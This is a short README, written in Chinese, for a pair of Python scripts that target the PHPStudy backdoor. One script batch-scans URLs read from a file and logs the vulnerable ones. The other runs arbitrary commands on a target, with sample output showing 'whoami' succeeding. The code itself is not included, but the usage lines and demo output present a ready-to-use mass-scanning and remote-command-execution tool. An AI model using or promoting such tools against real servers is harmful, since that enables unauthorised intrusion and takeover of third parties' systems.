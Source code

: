 # PHPStudy_BackDoor

#phpstudy_backdoor_poc.py
	多进程批量检测脚本，自动读取urls.txt中内容，然后进行批量检测
	检测结果如发现漏洞会存入phpstudy_backdoor_urls.txt中

#运行demo：
```
python phpstudy_backdoor_poc.py

[+] http://127.0.0.1 is vulnerable.
[-] http://192.168.1.1 is invulnerable.
[*] http://192.168.1.2 Looks Like Something Wrong.
[*] http://192.168.1.3 Looks Like Something Wrong.
```

#phpstudy_backdoor_exp.py
	漏洞利用脚本，操作精简。
	Usage: python3 phpstudy_backdoor_exp.py [url] [command]

#运行demo：
```
python phpstudy_backdoor_exp.py 127.0.0.1 whoami

[+] Command Execute Successful.
rabbitmask\rabbitmask
```

